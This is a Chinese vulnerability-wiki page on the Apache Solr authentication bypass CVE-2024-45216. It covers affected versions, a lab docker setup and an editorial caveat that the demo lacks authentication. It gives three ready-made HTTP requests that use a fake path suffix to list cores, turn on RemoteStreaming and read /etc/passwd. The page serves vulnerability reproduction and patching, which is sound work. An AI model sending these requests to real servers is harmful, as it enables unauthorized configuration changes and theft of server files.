




# Apache Solr 认证绕过漏洞 CVE-2024-45216

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响5.3–8.11.3或9.0–9.6，存在实际认证边界；后续配置写与RemoteStreaming读取需相应处理器/权限
- 证据范围：特殊路径后缀请求具体，但环境明说无需权限，不能用其证明认证绕过。

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 核心验证缺陷：演示未启用认证，必须有正常路径拒绝、异常路径通过的对照
- 文件读取是绕过后调用配置功能的后果，勿与RemoteStreaming单独配置风险重复建同CVE
- 5005调试端口非必要；持久开启RemoteStreaming无恢复

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

2024 年 10 月，Apache Solr 官方披露 CVE-2024-45216 Apache Solr 认证绕过漏洞。攻击者可构造恶意请求利用 PKIAuthenticationPlugin 造成权限绕过，从而可在未认证的情况下调用。官方已发布安全更新，建议升级至最新版本。

参考链接：

- https://solr.apache.org/security.html#cve-2024-45216-apache-solr-authentication-bypass-possible-using-a-fake-url-path-ending

## 漏洞影响

```
5.3.0 <= Apache Solr < 8.11.4
9.0.0 <= Apache Solr < 9.7.0
```

## 网络测绘

```
app="APACHE-Solr"
```

## 环境搭建

docker-compose.yml

```
version: '2'
services:
 solr:
   image: vulhub/solr:8.2.0
   ports:
    - "8983:8983"
    - "5005:5005"
```

执行如下命令启动一个 Apache Solr 8.2.0 服务器：

```shell
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8983` 即可查看到一个无需权限的 Apache Solr 服务。

## 漏洞复现

绕过身份验证，获取 core 名称：

```http
GET /solr/admin/cores:/admin/info/key?indexInfo=false&wt=json HTTP/1.1
Host: your-ip:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```




此时读取文件将报错 `Remote Streaming is disabled`，这是因为 Remote streaming 是默认关闭的：




修改 core 配置，开启 Remote streaming：

```http
POST /solr/demo/config:/admin/info/key HTTP/1.1
Host: your-ip:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/json
Connection: close
Content-Length: 80

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```




读取文件，例如 `/etc/passwd`：

```http
GET /solr/demo/debug/dump:/admin/info/key?param=ContentStreams&stream.url=file:///etc/passwd HTTP/1.1
Host: your-ip:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```




## 漏洞修复

官方已发布修复方案，受影响的用户建议更新至安全版本： https://solr.apache.org/downloads.html


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
